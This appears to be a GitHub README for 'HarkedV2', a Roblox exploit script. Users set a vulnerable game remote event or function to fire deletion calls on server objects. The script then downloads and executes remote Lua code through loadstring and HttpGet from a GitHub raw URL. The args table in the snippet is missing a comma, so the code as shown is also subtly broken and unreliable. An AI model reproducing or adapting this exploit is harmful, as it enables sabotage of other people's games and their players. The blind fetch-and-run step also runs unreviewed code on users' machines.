# HarkedV2
Fixed version of 'Harked' by Harkinian. Made the ability to customize the deletion remote.

To run, edit the following script accordingly, and then execute:
```lua
local function Destroy(a: Instance)
    local _G = getgenv()

    local args = { -- Change the arguments depending on how the remote works.
        [1] = "wear"
        [2] = a
    }
    
    if _G.rem:IsA("RemoteEvent") then
        _G.rem:FireServer(unpack(args))
    elseif _G.rem:IsA("RemoteFunction") then
        _G.rem:InvokeServer(unpack(args))
    elseif _G.rem:IsA("UnreliableRemoteEvent") then
        _G.rem:FireServer(unpack(args))
    end
end

getgenv().rem = game.ReplicatedStorage.RE["1Updat1eAvata1r"] -- Change this to whatever remote is vulnerable for deletion
getgenv().Destroy = Destroy

loadstring(game:HttpGet("https://raw.githubusercontent.com/qtip-rbxl/HarkedV2/main/main.lua", true))()
```
